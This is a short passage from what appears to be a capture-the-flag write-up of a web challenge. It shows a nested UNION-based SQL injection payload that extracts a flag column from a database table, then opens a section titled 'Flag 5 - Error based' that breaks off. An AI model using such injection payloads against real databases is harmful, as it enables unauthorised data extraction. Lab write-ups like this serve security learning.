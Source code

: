 ```bash
union select "1 union select 1,flag,3,4 from flag",2,3 -- -

```

![image23](../resources/95f367e7b63443bca75cc7b6e0fbfd61.png)


![image24](../resources/af1ad39b34c6461a9ee1c468d73c9661.png)

**<u>Flag 5 - Error based (kind of)</u>**

- On the home screen, we get a blog with user posts:

